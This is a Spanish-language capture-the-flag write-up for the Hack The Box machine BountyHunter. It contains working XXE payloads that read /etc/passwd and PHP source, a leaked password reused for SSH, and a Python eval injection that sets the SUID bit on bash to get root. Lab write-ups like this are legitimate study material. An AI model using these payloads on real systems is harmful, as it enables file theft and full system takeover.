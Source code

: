 ```yaml
---
layout: single
title: BountyHunter - Hack The Box
excerpt: "BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell"
date: 2024-04-18
classes: wide
header:
  teaser: /assets/images/htb-bounty/bounty.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - PHP
  - Script
  - XXE
---
```


![](/assets/images/htb-bounty/bounty.png)

BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell.

## Portscan

```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:27:12 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allPorts 10.10.11.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.100 ()	Status: Up
Host: 10.10.11.100 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
# Nmap done at Sun Apr 14 18:27:25 2024 -- 1 IP address (1 host up) scanned in 12.67 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:28:12 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 18:28:23 2024 -- 1 IP address (1 host up) scanned in 10.85 seconds

```
## Analisis Web

Analizando la página vemos que nos puede llevar a un lugar donde poder introducir información y verla reflejada asi que vamos a capturar la petición con el burpsuite.
![](/assets/images/htb-bounty/pag1.png)


Aqui esta lo que tenemos en el burp
![](/assets/images/htb-bounty/burp1.png)

Vemos que tenemos una data en base64 asi que vamos a meterla en el decoder para ver que tenemos, esto nos da una peticion en php. Vamos a intentar hacer un XXE injection en php:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
y donde queramos meterlo ponemos:
<title>&xxe;</title>
```
Lo encodeamos y lo ponemos de tipo url, probamos y nos da la respuesta que queremos asi que podemos probar mas inyecciones.
Antes de todo vamos a buscar un posible directorio de tipo .php
```
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
000000848:   200        0 L      0 W        0 Ch        "db"   
```

Ahora vamos a probarlo en el XXE injection:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>hi</cwe>
		<cvss>hi</cvss>
		<reward>hi</reward>
		</bugreport>
```
Esto nos devuelve un codigo en base64 que vamos a decodear en la terminal:
```
 echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```
Vamos a probar la contraseña que nos ha dado entrando en ssh:
```
ssh development@10.10.11.100                                                                   130 ⨯
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 17 Apr 2024 03:00:45 PM UTC

  System load:           0.0
  Usage of /:            24.3% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c391


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$
```
 
Ahora ya estamos dentro y podemos acceder a la flag de usuario

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. 
Con sudo -l vemos que tenemos permiso para ejecutar un script en python3
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```
Vamos a ver el contenido de este script:

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
Con esto analizandolo vemos que tenemos que introducir un archivo de tipo .md necesariamente, y mas requisitos.
Un posible contenido de nuestro archivo podria ser el siguiente:
```
# Skytrain Inc
## Ticket to 
** 11 + 2 
```

Y para intrucir un script malicioso podemos poner:
```
# Skytrain Inc
## Ticket to  
** 11 + 2  __import__('os').system('chmod u+s /bin/bash')
```

Esto si ejecutamos lo siguiente ya lo tendriamos:
```
sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/hola.md
Destination: 
Invalid ticket.
development@bountyhunter:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
c647c549364f46534d4d74db2ed2b828

```

